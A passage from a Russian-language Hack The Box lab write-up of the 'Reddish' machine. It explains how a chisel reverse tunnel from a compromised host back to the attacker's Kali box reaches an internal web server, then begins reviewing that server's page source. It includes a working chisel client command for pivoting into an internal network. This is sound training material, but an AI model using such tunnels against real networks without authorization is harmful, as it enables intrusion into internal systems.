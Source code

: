 Первым действием поднимаем сервер на Kali, который слушает активность на 8000-м порту (`-p 8000`) и разрешает создание обратных подключений (`-reverse`).

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 R:127.0.0.1:8890:172.19.0.3:80 &
```

После чего подключаемся к этому серверу с помощью клиента на `nodered`. Команда выше откроет 8890-й порт на Kali (флаг `R`), через который трафик будет попадать в 80-й порт хоста `172.19.0.3`. Если не указать сетевой интерфейс на обратном соединении явно (в данном случае это `127.0.0.1`), то будет использован `0.0.0.0`, что означает, что **любой** участник сети сможет юзать нашу машину в качестве футхолда для общения с `172.19.0.3:80`. Так как это нас не устраивает, то приходится вручную прописывать `127.0.0.1`. В этом отличие от дефолтного SSH-клиента: там по умолчанию всегда будет использован `127.0.0.1`.

![network-map-2.png](/assets/images/htb/machines/reddish/network-map-2.png)
{:.center-image}

Сетевая карта. Часть 2: Туннель до веба через nodered
{:.quote}

### Исследование веб-сайта

Если открыть `localhost:8890` в браузере, нас снова встретит радостная новость о том, что «It works!». Это мы уже видели, поэтому откроем сорцы веб-странички в поисках интересного кода.

Целиком [исходник](https://github.com/snovvcrash/xakepru/blob/master/htb-reddish/www-index.html) вставлять не буду, только скриншот с интересными моментами.
